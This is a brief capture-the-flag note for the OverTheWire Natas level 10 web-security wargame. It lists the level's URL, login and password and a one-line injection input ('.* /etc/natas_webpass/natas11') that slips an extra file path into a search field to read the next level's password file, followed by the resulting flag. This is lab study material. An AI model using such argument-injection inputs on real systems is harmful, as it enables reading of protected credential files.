 link: http://natas10.natas.labs.overthewire.org/
login: natas10
pwd: D44EcsFkLxPIkAAKLosx8z3hxX1Z4MCE

*steps:*
- .* /etc/natas_webpass/natas11

flag: 1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg